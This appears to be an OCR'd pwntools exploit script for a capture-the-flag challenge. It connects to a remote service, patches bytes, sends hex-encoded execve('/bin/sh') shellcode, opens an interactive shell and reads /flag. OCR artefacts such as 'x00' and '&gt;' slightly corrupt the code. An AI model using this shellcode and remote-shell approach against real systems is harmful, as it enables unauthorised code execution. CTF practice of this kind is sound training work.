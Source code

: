 ```
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string,drop=True).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string,drop=True).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        sh.recvuntil('&gt; ')
        sh.sendline('90') # NOP byte
        sh.recvuntil('&gt; ')
        sh.sendline('80') # NOP size
        sh.recvuntil(': ')
        sh.sendline('7C') # patch offset
        sh.recvuntil(': ')
        sh.sendline('EB') # patch value
        sh.recvuntil(': ')
        sh.sendline('7D') # patch offset
        sh.recvuntil(': ')
        sh.sendline('46') # patch value
        sh.recvuntil('[1/3] &gt; ')
        sh.sendline('504831d24831f648') # ROP
        sh.recvuntil('[2/3] &gt; ')
        sh.sendline('bb2f62696e2f2f73') # ROP
        sh.recvuntil('[3/3] &gt; ')
        sh.sendline('6853545fb03b0f05') # ROP 
        sh.recvuntil('&gt; ')
        # sh.sendline('1') # Watch
        # open('./introool','w').write(base64.b64decode(sh.recvuntil('n',drop=True)))
        sh.sendline('2') # Attack
        sh.interactive()
        flag=get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'
```